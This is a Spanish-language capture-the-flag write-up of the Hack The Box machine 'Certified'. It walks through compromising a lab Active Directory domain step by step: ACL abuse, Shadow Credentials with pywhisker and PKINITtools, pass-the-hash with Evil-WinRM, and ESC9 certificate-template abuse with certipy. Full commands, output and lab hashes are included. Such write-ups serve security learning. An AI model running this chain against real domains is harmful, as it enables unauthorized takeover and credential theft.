






---


## Ficha técnica

- **Nombre de la máquina:** Certified
- **Dificultad:** Media
- **Plataforma:** Hack The Box
- **Autor:** ruycr4ft
- **Resumen:** Certified es una máquina de dificultad media enfocada en Active Directory. Para lograr el compromiso inicial se requiere un análisis y explotación de ACLs en cadena junto con ataques de _Shadow Credentials_, permitiendo realizar un movimiento lateral empleando el mismo vector. Finalmente, se alcanza el compromiso total del dominio explotando una vulnerabilidad presente en la plantilla de certificados ESC9 (_No Security Extension Flag_).

---

## 1. Reconocimiento

### 1.1. Comprobación de conectividad

Se verificó la comunicación con la máquina enviando cuatro paquetes ICMP:

```bash
ping -c 4 10.129.54.61
```

```plaintext
PING 10.129.54.61 (10.129.54.61) 56(84) bytes of data.
64 bytes from 10.129.54.61: icmp_seq=1 ttl=127 time=116 ms
64 bytes from 10.129.54.61: icmp_seq=2 ttl=127 time=117 ms
64 bytes from 10.129.54.61: icmp_seq=3 ttl=127 time=116 ms
64 bytes from 10.129.54.61: icmp_seq=4 ttl=127 time=177 ms

--- 10.129.54.61 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 115.652/131.568/177.000/26.236 ms
```

> **Conclusión de la fase:** El 0% de pérdida de paquetes confirma una excelente conectividad. Además, un TTL de 127 —muy cercano al valor por defecto en sistemas Windows— da un primer indicio claro sobre el sistema operativo del objetivo.

---
### 1.2. Escaneo completo de puertos TCP

A continuación, realizamos un escaneo de todo el rango de puertos TCP (65,535) filtrando únicamente los abiertos con Nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.54.61
```

```plaintext
Nmap scan report for 10.129.54.61

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49693/tcp open  unknown
49694/tcp open  unknown
49697/tcp open  unknown
49726/tcp open  unknown
49738/tcp open  unknown
49776/tcp open  unknown
```

> **Conclusiones:** Este escaneo ha revelado un total de 20 puertos abiertos. La presencia de servicios clave como DNS (53), Kerberos (88), LDAP (389) y SMB (445) confirma de forma definitiva que el objetivo no solo ejecuta Windows, sino que actúa como un **Controlador de Dominio en Active Directory**.

---

## 2. Enumeración

### 2.1. Enumeración general de puertos abiertos

Se realizó una enumeración de los servicios en los puertos descubiertos:

```bash
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49693,49694,49697,49726,49738,49776 -sCV -Pn -n 10.129.54.61
```

```plaintext
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-27 09:15:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-27T09:17:10+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
**************************<Recortado>**************************
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
**************************<Recortado>**************************
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time: 
|   date: 2026-08-27T09:16:33
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.77 seconds
```

> **Conclusiones:** Se confirma que el objetivo opera como controlador de dominio en Active Directory bajo el nombre `certified.htb`. Asimismo, se descarta el vector de ataque SMB Relay, ya que la firma de mensajes está habilitada y es requerida.

---

### 2.2. Enumeración SMB

Se validaron las credenciales proporcionadas (`judith.mader:judith09`) y se comprobaron los recursos compartidos y permisos asociados:

```bash
nxc smb 10.129.54.61 -u 'judith.mader' -p 'judith09'
```

```plaintext
SMB         10.129.54.61   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.54.61   445    DC01             [+] certified.htb\judith.mader:judith09 
```

```bash
nxc smb 10.129.54.61 -u 'judith.mader' -p 'judith09' --shares
```

```plaintext
SMB         10.129.54.61   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.54.61   445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.54.61   445    DC01             [*] Enumerated shares
SMB         10.129.54.61   445    DC01             Share           Permissions     Remark
SMB         10.129.54.61   445    DC01             -----           -----------     ------
SMB         10.129.54.61   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.54.61   445    DC01             C$                              Default share
SMB         10.129.54.61   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.54.61   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.54.61   445    DC01             SYSVOL          READ            Logon server share 
```

**Niveles de acceso obtenidos:**

- **IPC$:** Lectura
- **NETLOGON:** Lectura
- **SYSVOL:** Lectura

Ante la ausencia de información relevante en los recursos compartidos, se procedió a enumerar los usuarios válidos:

```bash
nxc smb 10.129.54.61 -u 'judith.mader' -p 'judith09' --users
```

**Listado de usuarios identificados:**

```plaintext
Administrator
Guest
krbtgt
judith.mader
management_svc
ca_operator
alexander.huges
harry.wilson
gregory.cameron
```

> **Conclusiones:** Se dispone de un listado de usuarios válidos apto para evaluar el vector de ataque Kerberoasting.

----

### 2.3. Enumeración de Active Directory con BloodHound

Aunque el usuario `management_svc` era vulnerable a Kerberoasting, el hash obtenido no pudo descifrarse por fuerza bruta. Por ello, se realizó una enumeración profunda de Active Directory con BloodHound utilizando `bloodhound-python`:

```bash
bloodhound-python -u 'judith.mader' -p 'judith09' -d certified.htb -ns 10.129.53.208 -c All
```

Tras importar los archivos `.json` a la interfaz gráfica, se identificaron las siguientes relaciones de control de acceso:

1. El usuario `judith.mader` posee el privilegio **WriteOwner** sobre el grupo `Management`.



2. Los miembros del grupo `Management` tienen el privilegio **GenericWrite** sobre el usuario `management_svc`.



3. El usuario `management_svc` pertenece al grupo `Remote Management Users`.



> **Conclusiones:** La ruta de acceso inicial identificada consiste en abusar del privilegio `WriteOwner` para tomar posesión del grupo `Management` y añadir al usuario `judith.mader`. Posteriormente, aprovechando el control `GenericWrite` sobre `management_svc`, es posible llevar a cabo un ataque de _Shadow Credentials_ para comprometer la cuenta.

----

## 3. Explotación

### 3.1. Acceso inicial mediante Shadow Credentials

Utilizando la suite de Impacket, modificamos la propiedad del grupo `management` para asignársela al usuario bajo nuestro control (`judith.mader`):

```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
```

```plaintext
[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

A continuación, otorgamos el derecho `WriteMembers` para poder agregar nuevos integrantes al grupo:

```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

```plaintext
[*] DACL backed up to dacledit-20260829-115016.bak
[*] DACL modified successfully!
```

Empleamos la herramienta `net` de Samba para incorporar al usuario a dicho grupo:

```bash
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.129.54.61"
```

Verificamos que la modificación se haya aplicado de manera correcta:

```bash
net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "10.129.54.61"
```

```plaintext
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

Dado que el usuario `judith.mader` ya forma parte del grupo `Management`, utilizamos **Pywhisker** para inyectar una llave pública dentro del atributo `msDS-KeyCredentialLink` de `management_svc`. Esto nos permite suplantar su identidad y solicitar un TGT:

```bash
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```

```plaintext
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: b0934351-e945-1fe0-5d8a-2e3f2adde3e7
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: Q5bjxBU1.pfx
[+] PFX exportiert nach: Q5bjxBU1.pfx
[i] Passwort für PFX: QUEkkim90bHGvs7GSkmw
[+] Saved PFX (#PKCS12) certificate & key at path: Q5bjxBU1.pfx
[*] Must be used with password: QUEkkim90bHGvs7GSkmw
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Con la llave privada y la contraseña generadas, empleamos `gettgtpkinit.py` (de PKINITtools) para solicitar el TGT:

```bash
python3 gettgtpkinit.py -cert-pfx Q5bjxBU1.pfx certified.htb/management_svc -pfx-pass 'QUEkkim90bHGvs7GSkmw' management_svc.ccache
```

```plaintext
2026-08-29 19:06:09,041 minikerberos INFO     Loading certificate and key from file
2026-08-29 19:06:09,055 minikerberos INFO     Requesting TGT
2026-08-29 19:06:21,996 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-08-29 19:06:21,996 minikerberos INFO     1bde9e65d5ee874861f3c432bf8c665e605c8a1c6999984b0ccad9d9ffe7e296
2026-08-29 19:06:22,004 minikerberos INFO     Saved TGT to file
```

Definimos la variable de entorno `KRB5CCNAME` para almacenar el ticket:

```bash
export KRB5CCNAME=management_svc.ccache
```

Utilizamos el TGT obtenido para solicitar un TGS mediante `getnthash.py`. Esta herramienta aprovecha características criptográficas del Active Directory para recuperar el hash NT del usuario objetivo:

```bash
python3 getnthash.py -key 1bde9e65d5ee874861f3c432bf8c665e605c8a1c6999984b0ccad9d9ffe7e296 certified.htb/management_svc
```

```plaintext
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

Validamos el hash NT obtenido utilizando NetExec:

```bash
nxc winrm 10.129.54.61 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

```plaintext
WINRM       10.129.54.61    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb) 
WINRM       10.129.54.61    5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```

Una vez confirmadas las credenciales, iniciamos la sesión remota con Evil-WinRM:

```bash
evil-winrm -i 10.129.54.61 -u "management_svc" -H "a091c1832bcdd4677c28b5a6a1295584"
```



> **Conclusión:** Se estableció una sesión interactiva mediante WinRM dentro del sistema objetivo a través del usuario `management_svc`.

---

## 4. Post-Explotación

### 4.1. Movimiento lateral al usuario `ca_operator`

El usuario `management_svc` posee el privilegio `GenericAll` sobre el usuario `ca_operator`. Esto abre múltiples vectores para comprometerlo, como ataques de Kerberoasting dirigidos o un cambio forzado de contraseña (_Force Change Password_); sin embargo, el vector seleccionado vuelve a ser **Shadow Credentials**.



Utilizando **Pywhisker**, generamos una llave privada e inyectamos el atributo en la cuenta objetivo:

```bash
python3 pywhisker.py -d "certified.htb" -u "management_svc" -H "a091c1832bcdd4677c28b5a6a1295584" --target "ca_operator" --action "add"
```

```plaintext
[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: cdba76ab-7c5b-be46-7088-c796247b2226
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 30PstYL9.pfx
[+] PFX exportiert nach: 30PstYL9.pfx
[i] Passwort für PFX: GM963cy6MCXVTEQR0BK0
[+] Saved PFX (#PKCS12) certificate & key at path: 30PstYL9.pfx
[*] Must be used with password: GM963cy6MCXVTEQR0BK0
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Solicitamos un TGT mediante `gettgtpkinit`:

```bash
python3 gettgtpkinit.py -cert-pfx 30PstYL9.pfx certified.htb/ca_operator -pfx-pass 'GM963cy6MCXVTEQR0BK0' management_svc.ccache
```

```plaintext
2026-08-29 21:07:31,493 minikerberos INFO     Loading certificate and key from file
2026-08-29 21:07:31,507 minikerberos INFO     Requesting TGT
2026-08-29 21:07:47,260 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-08-29 21:07:47,260 minikerberos INFO     19802c74a206ead74333679c20c3cc941203534f1cf4ff38fdce0223f10ae1bc
2026-08-29 21:07:47,266 minikerberos INFO     Saved TGT to file
```

Por último, empleamos `getnthash` para recuperar el hash NT del usuario `ca_operator`:

```bash
python3 getnthash.py -key 19802c74a206ead74333679c20c3cc941203534f1cf4ff38fdce0223f10ae1bc certified.htb/ca_operator
```

```plaintext
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
b4b86f45c6018f1b664f70805f45d8f2
```

> **Conclusiones:** A pesar de que el usuario `ca_operator` no cuenta con permisos ACL sobre otros objetos del dominio, su nombre sugiere relación directa con la Autoridad de Certificación (Active Directory Certificate Services), por lo que el siguiente paso lógico es realizar una auditoría de las plantillas de certificados del dominio.

---

### 4.2. Escalada de privilegios mediante abuso de extensión insegura en plantilla ESC9

Utilizando **Certipy-ad**, realizamos una búsqueda de las plantillas y filtramos el reporte para mostrar únicamente aquellas que presentan vulnerabilidades:

```bash
certipy-ad find -vulnerable -username ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.129.54.61 -stdout
```

```plaintext
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
**************************<Recortado>**************************
    Certificate Templates
      0
        Template Name                   : CertifiedAuthentication
        Display Name                    : CertifiedAuthentication
        Client Authentication           : True
        Enrollee Supplies Subject       : True
        Certificate Name Flag           : EnrolleeSuppliesSubject
        Authorized Signatures Required  : 0
        Validity Period                 : 1 years
        Renewal Period                  : 6 weeks
        Permissions
          Enrollment Permissions
            Certified\Domain Users      : Read, Enroll
          Object Control Permissions
            Certified\Domain Admins     : Full Control
            Certified\Enterprise Admins : Full Control
        [!] Vulnerabilities
          ESC9                          : The certificate template does not include the Security Identifier (SID) extension, which allows mapping certificates to users via the userPrincipalName attribute.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

La búsqueda reveló que la plantilla es vulnerable a **ESC9** (_No Security Extension Flag_). Al omitir esta extensión, se debilita el proceso de validación de identidad del usuario, permitiendo a un atacante suplantar las identidades de cuentas con altos privilegios, como un Administrador de Dominio.

Aprovechando que la cuenta `management_svc` posee el privilegio `GenericAll` sobre `ca_operator`, actualizamos el atributo `userPrincipalName` (_UPN_) de este último para suplantar la identidad del usuario `Administrator`:

```bash
certipy-ad account -u 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -dc-ip '10.129.54.61' -upn 'administrator' -user 'ca_operator' update
```

```plaintext
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator
```

Una vez modificada la cuenta, solicitamos un certificado a la Autoridad de Certificación usando el UPN suplantado:

```bash
certipy-ad req -u 'ca_operator@certified.htb' -hashes 'b4b86f45c6018f1b664f70805f45d8f2' -dc-ip '10.129.54.61' -target 'DC01.certified.htb' -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
```

```plaintext
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 7
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Restauramos el UPN original del usuario `ca_operator` para evitar dejar rastros innecesarios o alterar permanentemente la cuenta:

```bash
certipy-ad account -u 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -dc-ip '10.129.54.61' -upn 'ca_operator@certified.htb' -user 'ca_operator' update
```

```plaintext
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Para finalizar, utilizamos el certificado generado para autenticarnos y solicitar el TGT del usuario `Administrator`, obteniendo automáticamente su hash NT:

```bash
certipy-ad auth -dc-ip '10.129.54.61' -pfx 'administrator.pfx' -username 'administrator' -domain 'certified.htb'
```

```plaintext
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

Validamos el hash NT obtenido y abrimos una sesión interactiva mediante Evil-WinRM con los privilegios máximos del dominio:

```bash
evil-winrm -i 10.129.54.61 -u "administrator" -H "0d5b49608bbce1751f708748f67e2d34"
```



> **Conclusión final:** Se logró el compromiso total del Active Directory y del controlador de dominio tras escalar privilegios hasta la cuenta `Administrator`, finalizando el proceso con la recolección de las flags correspondientes.

---